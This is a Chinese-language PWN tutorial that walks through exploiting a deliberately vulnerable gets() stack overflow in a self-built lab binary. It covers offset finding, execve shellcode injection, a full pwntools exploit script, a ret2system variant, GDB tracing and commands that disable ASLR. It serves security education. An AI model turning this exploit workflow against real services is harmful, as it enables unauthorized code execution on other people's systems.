


# 案例一：基础栈溢出 — 获取Shell

## 概述与学习目标

本案例是整个PWN实战系列的起点。我们将以一个完全没有防护的程序为目标，完整展示从漏洞发现、偏移计算、利用思路设计到编写自动化EXP的全过程。通过这个案例，读者将掌握栈溢出利用的完整工作流，为后续绕过各种防护机制的高级案例打下坚实基础。

**本案例涵盖的核心知识点：**

| 知识点 | 说明 | 在本案例中的体现 |
|--------|------|------------------|
| 栈帧结构 | 函数调用时栈上数据的组织方式 | buffer → saved RBP → 返回地址 |
| 溢出覆盖 | 输入数据如何跨越缓冲区边界 | 覆盖返回地址劫持控制流 |
| 偏移计算 | 精确定位返回地址在输入中的位置 | cyclic pattern + GDB验证 |
| Shellcode注入 | 将机器码注入可执行内存区域 | 栈可执行时直接注入shellcode |
| 二进制分析 | 使用工具检查二进制文件的安全属性 | checksec、objdump、readelf |
| GDB调试 | 跟踪程序执行、查看内存状态 | 确定buffer栈地址 |
| pwntools | Python漏洞利用框架的使用 | 自动化EXP编写 |

**预期前置知识：**
- C语言基础（指针、数组、字符串操作）
- x86-64汇编基础（能读懂函数序言/尾声、call/ret指令）
- Linux基本操作（终端、编译、文件权限）
- 了解栈的基本概念（可参考理论基础章节）

---

## 第一阶段：漏洞程序与环境准备

### 1.1 漏洞源代码

```c
// vuln.c
#include <stdio.h>
#include <string.h>

void vuln() {
    char buffer[64];                          // 栈上分配64字节缓冲区
    printf("Enter your name: ");              // 提示用户输入
    gets(buffer);                             // 【漏洞点】使用gets()，无长度限制
    printf("Hello, %s!\n", buffer);           // 打印输入内容
}

int main() {
    vuln();
    return 0;
}
```

这段代码的核心漏洞在于`gets()`函数。`gets()`从标准输入读取一行字符串，直到遇到换行符或EOF为止，**完全不对输入长度做任何检查**。当用户输入超过64字节时，多余的数据会溢出`buffer`数组的边界，覆盖栈上相邻的内存区域。

**为什么`gets()`是危险的？**

`gets()`的函数原型是`char *gets(char *s)`，它没有参数来指定缓冲区大小。这个设计缺陷早在C99标准中就已被标记为过时（deprecated），在C11标准中被正式移除。现代编译器在编译使用`gets()`的代码时会产生警告。但大量遗留代码和CTF题目中仍然存在这种漏洞。

以下是常见的危险函数及其安全替代品：

| 危险函数 | 风险 | 安全替代 |
|----------|------|----------|
| `gets(s)` | 无长度限制 | `fgets(s, size, stdin)` |
| `strcpy(dst, src)` | 不检查dst大小 | `strncpy(dst, src, n)` 或 `strlcpy()` |
| `strcat(dst, src)` | 不检查dst剩余空间 | `strncat(dst, src, n)` |
| `sprintf(buf, fmt, ...)` | 不检查buf大小 | `snprintf(buf, n, fmt, ...)` |
| `scanf("%s", buf)` | 无宽度限制 | `scanf("%63s", buf)` |

### 1.2 编译命令与标志解析

```bash
gcc -o vuln vuln.c -fno-stack-protector -z execstack -no-pie -m64
```

每个编译标志的作用如下：

| 编译标志 | 效果 | 本案例用途 |
|----------|------|------------|
| `-fno-stack-protector` | 禁用栈保护（Stack Canary） | 消除栈溢出检测 |
| `-z execstack` | 标记栈为可执行（关闭NX） | 允许在栈上执行shellcode |
| `-no-pie` | 关闭地址随机化（PIE） | 程序加载地址固定 |
| `-m64` | 编译为64位程序 | 目标为x86-64架构 |

**验证编译结果：**

```bash
# 检查文件类型
file vuln
# 输出: vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), 
#        dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2 ...

# 查看保护机制
checksec --file=vuln
# 或使用 pwntools 的 checksec
# checksec: RELRO           STACK CANARY      NX            PIE
#           Partial RELRO   No canary found   NX disabled   No PIE
```

这里特别强调：`NX disabled`意味着栈上的数据可以被当作代码执行，这是shellcode注入的前提条件。如果NX开启，我们需要转向ret2libc或ROP等技术（详见案例二）。

### 1.3 搭建实验环境

```bash
# 安装必要的工具链
sudo apt update
sudo apt install gcc gdb python3 python3-pip

# 安装pwntools（PWN必备的Python框架）
pip3 install pwntools

# 安装ROPgadget（用于搜索gadgets）
pip3 install ROPgadget

# 安装one_gadget（查找libc中执行execve("/bin/sh")的地址）
gem install one_gadget

# 安装peda（GDB增强插件，提供更友好的调试界面）
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
```

> **注意：** 本案例的所有操作均在Linux x86-64环境下完成。32位系统的利用方式略有不同（参数通过栈传递而非寄存器），但核心原理一致。

---

## 第二阶段：二进制分析

在编写EXP之前，必须充分了解目标二进制的内部结构。这一步决定了我们的利用策略。

### 2.1 保护机制检查

使用`checksec`检查程序启用了哪些安全防护：

```bash
$ checksec --file=vuln
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

逐项解读：

- **No canary found** — 没有栈金丝雀保护，溢出不会被检测到
- **NX disabled** — 栈可执行，可以注入shellcode
- **No PIE** — 程序基地址固定为`0x400000`，代码段地址可预测
- **Partial RELRO** — GOT表可写（本案例不需要利用这一点）

**结论：** 所有防护均已关闭，这是最理想的攻击场景。我们可以直接注入shellcode并跳转执行。

### 2.2 反汇编分析

使用`objdump`查看关键函数的汇编代码：

```bash
objdump -d -M intel vuln | grep -A 30 '<vuln>:'
```

`vuln`函数的汇编代码类似如下（不同编译器版本可能略有差异）：

```asm
0000000000401136 <vuln>:
  401136:  endbr64                    ; CET间接分支跟踪标记
  40113a:  push   rbp                 ; 保存调用者的栈帧基址
  40113b:  mov    rbp,rsp             ; 建立新栈帧
  40113e:  sub    rsp,0x40            ; 分配64字节局部变量空间（0x40 = 64）
  401142:  lea    rdi,[rip+0xec9]     ; "Enter your name: "
  401149:  call   401030 <puts@plt>   ; 调用puts打印提示
  40114e:  lea    rax,[rbp-0x40]      ; buffer的地址 = rbp - 0x40
  401152:  mov    rdi,rax             ; buffer地址作为gets的参数
  401155:  call   401040 <gets@plt>   ; 调用gets读取输入
  40115a:  lea    rax,[rbp-0x40]      ; buffer地址
  40115e:  mov    rsi,rax             ; buffer作为printf的第二个参数
  401162:  lea    rdi,[rip+0xec6]     ; "Hello, %s!\n"
  401169:  call   401030 <puts@plt>   ; 打印问候（这里可能是printf）
  40116e:  nop                         ; 对齐填充
  40116f:  leave                      ; mov rsp,rbp; pop rbp — 恢复栈帧
  401170:  ret                        ; 弹出返回地址并跳转
```

**关键发现：**

1. `sub rsp, 0x40` — 分配了`0x40`（64字节）的栈空间给局部变量
2. `lea rax,[rbp-0x40]` — buffer起始于`rbp - 0x40`处
3. buffer到saved RBP的距离 = `0x40` = 64字节
4. saved RBP在x64下占8字节
5. 返回地址紧接在saved RBP之后

### 2.3 栈布局可视化

根据汇编分析，绘制vuln函数调用gets()时的栈布局：

```text
高地址（栈底方向）
┌─────────────────────────────────────────┐
│          main() 的栈帧                   │
├─────────────────────────────────────────┤
│         返回地址 (8字节)                  │ ← RBP + 0x08（溢出覆盖目标）
│     即 main() 中 call vuln 的下一条指令    │
├─────────────────────────────────────────┤
│        saved RBP (8字节)                 │ ← RBP 指向这里
│     即 main() 的栈帧基址                  │
├─────────────────────────────────────────┤
│      buffer[56..63] (最后8字节)           │ ← RBP - 0x08
├─────────────────────────────────────────┤
│      buffer[48..55]                      │ ← RBP - 0x10
├─────────────────────────────────────────┤
│             ...                          │
├─────────────────────────────────────────┤
│      buffer[8..15]                       │ ← RBP - 0x38
├─────────────────────────────────────────┤
│      buffer[0..7]  (前8字节)              │ ← RBP - 0x40 (= ESP)
└─────────────────────────────────────────┘
低地址（栈顶方向）

关键偏移量：
  buffer 起始 → saved RBP  = 64 字节 (0x40)
  buffer 起始 → 返回地址   = 64 + 8 = 72 字节 (0x48)
```

**溢出路径：**
当`gets()`读入超过64字节时，溢出的数据会按以下顺序覆盖：
1. 第65-72字节 → 覆盖 saved RBP
2. 第73-80字节 → 覆盖 返回地址（8字节，little-endian）
3. 第81字节以后 → 覆盖 main() 栈帧中的更高地址

---

## 第三阶段：确定偏移

偏移计算是栈溢出利用中最基础也最关键的一步。偏移不精确，一切后续操作都是白搭。

### 3.1 方法一：手动计算

对于简单的函数，可以直接通过汇编代码计算：

```text
偏移 = buffer大小 + 对齐填充 + saved RBP大小
     = 0x40 + 0 + 8
     = 64 + 8
     = 72 字节
```

但手动计算容易出错，特别是当函数有多个局部变量、编译器插入了对齐填充、或者存在栈对齐要求时。因此推荐使用自动化方法来验证。

### 3.2 方法二：cyclic pattern（推荐）

pwntools提供了`cyclic`函数，可以生成一个由4字节唯一标识组成的序列。溢出后，根据崩溃时EIP/RIP中的值，可以精确反推出偏移量。

```python
from pwn import *

# 生成200字节的cyclic pattern
cyclic_pattern = cyclic(200)
print(cyclic_pattern[:80])  # 查看前80字节

# 将pattern写入文件，方便gdb调试
with open('pattern.txt', 'wb') as f:
    f.write(cyclic_pattern + b'\n')  # 加换行符，因为gets()按行读取
```

**使用GDB验证偏移：**

```bash
gdb ./vuln
```

在GDB中执行：

```gdb
# 在vuln函数的ret指令处设断点
b *vuln+58        # vuln函数偏移58字节处通常是ret指令

# 运行程序
r < pattern.txt

# 到达断点后，查看RIP（返回地址）的值
# GDB会在ret指令执行前显示
x/gx $rbp+8       # 查看返回地址槽位的值

# 假设返回地址被覆盖为 0x6161616c6161616b
# 使用cyclic查找偏移
python3 -c "from pwn import *; print(cyclic_find(0x6161616b61616161, n=8))"
# 或者如果上面的值只取低32位：
# cyclic_find(b'laaa')  # 找到对应的偏移

# 输出应为 72
```

**完整的偏移验证流程：**

```python
from pwn import *

# 方法三：自动化验证脚本
context.arch = 'amd64'

# 生成cyclic pattern
pattern = cyclic(200)

p = process('./vuln')
p.recvuntil(b'Enter your name: ')
p.sendline(pattern)

# 等待程序崩溃
p.wait()

# 查看core dump
import subprocess
result = subprocess.run(['dmesg'], capture_output=True, text=True)
# 在输出中查找类似这样的行：
# vuln[PID]: segfault at 0x6161616961616168 ...
# 提取RIP中的值

# 使用pwntools自动计算
offset = cyclic_find(0x6161616961616168, n=8)
print(f"Offset: {offset}")  # 输出: Offset: 72
```

### 3.3 方法三：GDB动态跟踪

如果cyclic pattern不好用（例如输入有字符限制），可以直接在GDB中观察栈状态：

```bash
gdb ./vuln
```

```gdb
# 在call gets处设断点
b *vuln+31        # call gets的地址（根据实际汇编调整）

r

# 到达断点后，查看栈布局
info registers rbp rsp

# 假设 rbp = 0x7fffffffe110, rsp = 0x7fffffffe0d0
# buffer大小 = rbp - rsp = 0x40 = 64
# 返回地址在 rbp + 8

# 继续执行，输入已知pattern
# 使用一个容易识别的pattern，如 "AAAABBBBCCCCDDDDEEEE..."
c

# 输入 pattern 后，程序会再次到达断点或崩溃
# 此时查看返回地址被什么值覆盖
x/gx 0x7fffffffe118    # rbp + 8 = 返回地址的位置
```

---

## 第四阶段：利用策略设计

根据二进制分析的结果，我们选择**shellcode注入**策略。这适用于NX关闭（栈可执行）的场景。

### 4.1 利用策略对比

针对本案例的条件（所有防护关闭），有多种可行的利用策略：

| 策略 | 条件 | 复杂度 | 适用本案例 |
|------|------|--------|------------|
| Shellcode注入 | NX关闭 | ★☆☆ | ✅ 最简单 |
| ret2system | 程序链接了system | ★★☆ | ✅ 可行 |
| ROP链 | 任意条件 | ★★★ | ✅ 可行但过度 |

本案例选择shellcode注入，因为它是最直观的方式，完美展示了栈溢出的基本原理。ret2system和ROP技术将在案例二和案例六中详细讲解。

### 4.2 Shellcode注入原理

```text
攻击前的栈：
┌──────────────────────┐
│     返回地址           │ → 指向 vuln() 的下一条指令
├──────────────────────┤
│     saved RBP         │
├──────────────────────┤
│  buffer[0..63]        │
└──────────────────────┘

攻击后的栈：
┌──────────────────────┐
│  返回地址 → buffer起始 │ → 跳转到buffer开始执行shellcode
├──────────────────────┤
│   填充数据 AAAA...    │ ← 覆盖saved RBP
├──────────────────────┤
│  shellcode（机器码）   │ ← 实际执行的恶意代码
└──────────────────────┘
```

**执行流程：**
1. 溢出数据填满buffer（64字节）
2. 继续覆盖saved RBP（8字节）
3. 将返回地址覆盖为buffer的起始地址
4. `vuln()`执行`ret`时，跳转到buffer起始地址
5. CPU将buffer中的shellcode当作指令执行
6. shellcode调用`execve("/bin/sh", NULL, NULL)`，获得shell

### 4.3 Shellcode选择

Shellcode是实际执行系统调用的机器码序列。对于x64 Linux获取shell，最常用的shellcode是`execve("/bin/sh", ["/bin/sh", NULL], NULL)`。

**pwntools自动生成shellcode：**

```python
from pwn import *
context.arch = 'amd64'

shellcode = asm(shellcraft.sh())  # 自动生成execve("/bin/sh")的shellcode
print(f"Shellcode长度: {len(shellcode)} 字节")
print(f"Shellcode内容: {shellcode.hex()}")
```

典型的x64 execve shellcode由以下步骤组成：

```asm
; 第一步：将 "/bin/sh\0" 字符串压栈
xor    rsi, rsi        ; rsi = 0 (argv = NULL)
push   rsi             ; 压入字符串终止符 \0
mov    rax, 0x68732f6e69622f  ; rax = "/bin/sh\0" (小端序)
push   rax             ; 压入栈
mov    rdi, rsp        ; rdi = 指向 "/bin/sh" 的指针

; 第二步：设置execve参数
xor    rdx, rdx        ; rdx = 0 (envp = NULL)
xor    rsi, rsi        ; rsi = 0 (argv = NULL)

; 第三步：执行系统调用
mov    al, 59          ; rax = 59 (execve的系统调用号)
syscall                ; 触发系统调用
```

**坏字符检查：**

某些输入函数会截断特定字符，导致shellcode不完整：

| 字符 | 十六进制 | 原因 | 是否影响 |
|------|----------|------|----------|
| 空字节 `\0` | `0x00` | `strcpy`、`gets`的终止符 | `gets()`不受影响（按换行截断） |
| 换行 `\n` | `0x0a` | `gets()`的终止符 | ⚠️ **本案例有影响** |
| 回车 `\r` | `0x0d` | 某些输入函数 | 视情况而定 |

在本案例中，`gets()`以换行符（`0x0a`）作为输入终止符。如果shellcode中包含`0x0a`字节，`gets()`会提前终止读取，导致shellcode不完整。pwntools生成的shellcode通常不含`0x0a`，但为安全起见，应显式检查：

```python
shellcode = asm(shellcraft.sh())
if b'\x0a' in shellcode:
    print("警告：shellcode包含换行符，需要重新生成！")
    # 使用替代shellcode或手动编写避免0x0a的版本
else:
    print("shellcode不含换行符，可以安全使用")
```

---

## 第五阶段：编写EXP

### 5.1 完整EXP — 获取Shell

```python
#!/usr/bin/env python3
"""
案例一：基础栈溢出 — Shellcode注入获取Shell
目标：通过栈溢出覆盖返回地址，跳转到注入的shellcode执行
条件：NX关闭（栈可执行）、无Canary、无PIE
"""

from pwn import *

# ==================== 配置 ====================
context.arch = 'amd64'       # 目标架构
context.os = 'linux'         # 目标操作系统
context.log_level = 'info'   # 日志级别（debug/info/warning）

# ==================== 加载目标 ====================
elf = ELF('./vuln')          # 加载ELF文件，自动解析符号表

# ==================== 确定偏移 ====================
offset = 72                  # 64(buffer) + 8(saved RBP)

# ==================== 准备Shellcode ====================
shellcode = asm(shellcraft.sh())
log.info(f"Shellcode长度: {len(shellcode)} 字节")

# 验证shellcode不包含坏字符
assert b'\x0a' not in shellcode, "Shellcode包含换行符0x0a！"
assert len(shellcode) <= offset, f"Shellcode({len(shellcode)}字节)超过缓冲区空间({offset}字节)！"

# ==================== 确定Buffer地址 ====================
# 方法一：GDB调试获取（固定地址，因为PIE关闭）
# 在GDB中：b *vuln+31, r, info frame, 查看buffer地址
buffer_addr = 0x7fffffffe0a0  # 示例地址，实际需GDB调试获取

# 方法二：使用coredump自动获取（更可靠）
# ulimit -c unlimited   # 允许生成core dump
# 运行程序后分析core文件获取buffer地址

log.info(f"Buffer地址: {hex(buffer_addr)}")

# ==================== 构造Payload ====================
payload = shellcode                              # Shellcode放在最前面
payload += b'A' * (offset - len(shellcode))      # 填充到返回地址
payload += p64(buffer_addr)                      # 覆盖返回地址为buffer起始地址

log.info(f"Payload总长度: {len(payload)} 字节")

# ==================== 发起攻击 ====================
p = process('./vuln')
p.recvuntil(b'Enter your name: ')
p.sendline(payload)
p.interactive()  # 切换到交互模式，获得shell
```

**EXP执行流程图：**



### 5.2 处理ASLR：确定Buffer地址的多种方法

上面的EXP中有一个关键问题：buffer的地址`0x7fffffffe0a0`怎么确定？虽然PIE关闭意味着代码段地址固定，但**栈地址在ASLR开启时是随机的**。以下是几种确定buffer地址的方法：

**方法一：关闭ASLR（调试阶段推荐）**

```bash
# 临时关闭ASLR
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

# 调试获取固定地址
gdb ./vuln
# b *vuln+31
# r
# p &buffer  # 或 x/gx $rbp-0x40
# 记录地址后用于EXP

# 调试完成后恢复ASLR
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

**方法二：利用信息泄露（实战推荐）**

如果程序有输出功能（如`printf(buffer)`格式化字符串漏洞，或`write`/`puts`可以泄露栈上的数据），可以通过泄露某个已知栈上的地址来推算buffer位置。

**方法三：相对偏移法（不依赖绝对地址）**

在某些场景下，我们可以不直接跳转到buffer，而是跳转到其他已知地址，例如：
- 跳转到`.bss`段（地址固定，因为PIE关闭）— 先`read()`将shellcode读入`.bss`，再跳转
- 使用ret2syscall — 不需要知道shellcode地址

**方法四：在GDB中获取地址后使用相对偏移**

```python
# 在GDB中获取buffer相对RBP的偏移后
# 使用带coredump的方式自动计算

import subprocess
import re

# 生成core dump
p = process('./vuln')
p.sendline(cyclic(200))
p.wait()

# 从core文件获取RIP的值
core = Coredump('./core')
rip_value = core.rip
log.info(f"崩溃时RIP: {hex(rip_value)}")
```

### 5.3 EXP变体 — 使用ret2system替代Shellcode

如果NX开启（栈不可执行），shellcode注入就不适用了。此时可以使用ret2system技术。虽然本案例NX关闭，但展示这种替代方法有助于建立完整的知识体系：

```python
#!/usr/bin/env python3
"""
EXP变体：ret2system — 通过system()函数获取shell
适用条件：程序链接了libc（或通过PLT可以调用system）
"""

from pwn import *

context.arch = 'amd64'

elf = ELF('./vuln')
p = process('./vuln')

offset = 72

# 从程序的GOT表或符号表获取system和"/bin/sh"的地址
# 前提：程序中直接或间接引用了system函数
# 如果程序没有直接调用system，需要通过ret2plt泄露libc地址（案例二详解）

# 方法：通过PLT调用system，配合栈上的"/bin/sh"字符串
# 注意：程序中可能没有"/bin/sh"字符串，需要从libc获取

# 查找gadgets
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
log.info(f"pop rdi; ret @ {hex(pop_rdi)}")

# 如果程序链接了system（较罕见的情况）
try:
    system_plt = elf.plt['system']
    log.info(f"system@plt: {hex(system_plt)}")
except KeyError:
    log.warning("程序未导入system，需要使用ret2libc")

# 构造ROP链
payload = b'A' * offset
# 实际的ROP链构造取决于具体的程序和libc版本
# 详见案例二：ret2libc绕过NX

p.interactive()
```

---

## 第六阶段：GDB调试详解

GDB调试是理解栈溢出利用过程的最佳方式。通过逐步跟踪，你可以亲眼看到溢出是如何覆盖栈上数据的。

### 6.1 调试环境准备

```bash
# 安装GDB增强插件（推荐peda或pwndbg）
# peda安装：
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit

# 或者 pwndbg（功能更丰富）：
git clone https://github.com/pwndbg/pwndbg
cd pwndbg && ./setup.sh
```

### 6.2 完整调试流程

```bash
gdb ./vuln
```

```gdb
# ========== 第一步：在关键位置设断点 ==========
disas vuln                          # 反汇编vuln函数，确认地址
b *vuln+31                          # 在call gets处设断点
b *vuln+58                          # 在ret指令处设断点（实际偏移根据汇编调整）

# ========== 第二步：运行程序 ==========
r

# 到达第一个断点（call gets之前）
# 此时buffer已分配，但尚未写入数据

# ========== 第三步：查看初始栈状态 ==========
info registers rbp rsp              # 查看RBP和RSP的值
# 假设: rbp = 0x7fffffffe110, rsp = 0x7fffffffe0d0

# 计算buffer地址和大小
# buffer = rbp - 0x40 = 0x7fffffffe0d0
# buffer到返回地址 = 0x40 + 0x08 = 0x48 = 72字节

# 查看栈内容（16个64位值）
x/16gx $rsp
# 可以看到：
# - saved RBP的值（在$rbp处）
# - 返回地址（在$rbp+8处，应指向main函数中的某个地址）

# ========== 第四步：继续执行，输入攻击数据 ==========
c

# 输入精心构造的payload
# AAAA...AAAA\x40\xe0\xff\xff\xff\x7f\x00\x00
# （buffer_addr需要替换为实际值）

# ========== 第五步：到达ret断点，查看被覆盖的栈 ==========
# 程序再次中断（在ret指令处）
x/4gx $rbp
# 应该看到：
# 0x7fffffffe110: 0x4141414141414141  ← saved RBP被覆盖为AAAA...
# 0x7fffffffe118: 0x00007fffffffe0d0  ← 返回地址被覆盖为buffer_addr

# ========== 第六步：单步执行ret ==========
si                          # 单步执行一条指令
# 此时RIP应该变为buffer_addr，开始执行shellcode
info registers rip          # 确认RIP指向buffer

# ========== 第七步：观察shellcode执行 ==========
x/10i $rip                  # 反汇编当前正在执行的代码（即我们的shellcode）
si                          # 逐步执行shellcode的每条指令
# 直到执行到syscall指令，此时shell应该已启动
```

### 6.3 使用GDB验证偏移的快速方法

```gdb
# 生成pattern文件
python3 -c "from pwn import *; open('pattern','wb').write(cyclic(200)+b'\n')"

# 在GDB中使用
r < pattern

# 到达vuln的ret断点
# 查看被覆盖的返回地址
x/gx $rbp+8

# 用cyclic_find计算偏移
python3 -c "from pwn import *; print(cyclic_find(0xXXXX, n=8))"
# XXXX替换为实际观察到的值
```

---

## 第七阶段：常见问题与排错

### 7.1 偏移计算错误

**症状：** 程序崩溃，但没有执行shellcode，RIP指向一个不可预期的地址。

**诊断：**
```bash
# 使用core dump分析
ulimit -c unlimited
./vuln < payload
dmesg | tail
# 查看 segfault at 后面的地址
```

**常见原因：**
- 编译器在buffer和saved RBP之间插入了对齐填充
- 函数有多个局部变量，改变了buffer的实际位置
- 使用了不同版本的编译器或优化选项（`-O2`会大幅改变栈布局）

**解决：** 始终使用cyclic pattern + GDB动态验证偏移，不要纯靠手动计算。

### 7.2 Buffer地址不正确

**症状：** 偏移正确（saved RBP被覆盖为预期值），但RIP没有跳转到buffer。

**诊断：**
```gdb
# 在ret处设断点
b *vuln_ret
r < payload

# 查看返回地址槽位
x/gx $rbp+8
# 确认值是否与EXP中设置的buffer_addr一致
```

**常见原因：**
- ASLR开启但EXP中使用了硬编码地址
- 调试时关闭了ASLR，但实际运行时ASLR是开启的
- GDB调试的地址与实际运行的地址不同（GDB会改变栈布局）

**解决：** 检查ASLR状态，使用`/proc/sys/kernel/randomize_va_space`确认。

### 7.3 Shellcode执行但没有获得Shell

**症状：** RIP跳转到了buffer地址，执行了一段时间，但没有获得shell。

**可能原因：**
- shellcode中包含坏字符（`0x0a`等），被`gets()`截断
- 环境问题：某些容器或受限环境中`execve("/bin/sh")`可能失败
- shellcode类型不匹配（32位shellcode在64位环境中执行）

**诊断：**
```gdb
# 在buffer地址设断点
b *0x7fffffffe0d0   # buffer实际地址
c

# 逐步执行shellcode
x/10i $rip           # 查看shellcode反汇编
si                   # 单步执行
# 观察每一步寄存器的变化
```

### 7.4 "段错误"但Payload看起来正确

**症状：** 程序输出"Segmentation fault"，但payload的构造看起来没有问题。

**检查清单：**
1. 确认编译时使用了正确的标志（`-fno-stack-protector -z execstack -no-pie`）
2. 确认二进制文件是最新的（重新编译后没有用旧的EXP）
3. 确认payload长度正确（打印`len(payload)`检查）
4. 确认地址是小端序（x86/x64是little-endian，使用`p64()`而非直接拼接字节）
5. 确认没有额外的换行符或空字节干扰

```python
# 调试EXP的常用方法
print(f"Offset: {offset}")
print(f"Buffer addr: {hex(buffer_addr)}")
print(f"Payload len: {len(payload)}")
print(f"Payload (hex): {payload.hex()}")
# 确认最后8字节是buffer_addr的小端序表示
print(f"Last 8 bytes: {payload[-8:].hex()}")
```

---

## 第八阶段：进阶话题

### 8.1 32位与64位的差异

同样的漏洞程序在32位和64位下的利用方式有显著差异：

| 差异项 | x86（32位） | x64（64位） |
|--------|-------------|-------------|
| 地址大小 | 4字节（`p32()`） | 8字节（`p64()`） |
| 函数参数传递 | 通过栈传递 | 前6个通过寄存器 |
| saved EBP/RBP | 4字节 | 8字节 |
| 典型偏移 | buffer + 4 | buffer + 8 |
| Shellcode注入 | 无需ROP，直接覆盖EIP | 需考虑地址对齐 |
| 系统调用 | `int 0x80` | `syscall` |

**32位EXP示例：**

```python
from pwn import *
context.arch = 'i386'

p = process('./vuln32')
offset = 64 + 4  # buffer(64) + saved EBP(4)

shellcode = asm(shellcraft.sh())
buffer_addr = 0xffffd5a0  # GDB调试获取

payload = shellcode
payload += b'A' * (offset - len(shellcode))
payload += p32(buffer_addr)  # 32位地址

p.sendline(payload)
p.interactive()
```

### 8.2 编译优化对栈布局的影响

GCC的优化级别会显著改变栈布局，这在CTF比赛中经常遇到：

```bash
# 无优化（默认）
gcc -O0 -o vuln vuln.c -fno-stack-protector -z execstack -no-pie

# 优化级别1
gcc -O1 -o vuln vuln.c -fno-stack-protector -z execstack -no-pie

# 优化级别2（CTF常见）
gcc -O2 -o vuln vuln.c -fno-stack-protector -z execstack -no-pie
```

**优化可能带来的变化：**
- 变量重排序：buffer可能不再位于栈底
- 函数内联：`vuln()`可能被内联到`main()`中
- 栈帧合并：编译器可能省略`push rbp; mov rbp, rsp`
- Red Zone使用：x64下，叶函数可能使用RSP下方的128字节Red Zone

**应对方法：** 始终在GDB中确认实际的栈布局，不要假设任何优化级别的特定行为。

### 8.3 防护开启时的策略转换

当本案例的程序开启某种防护时，利用策略需要相应调整：



| 防护组合 | 推荐策略 | 对应案例 |
|----------|----------|----------|
| 全部关闭 | Shellcode注入 | **本案例** |
| NX开启 | ret2libc | 案例二 |
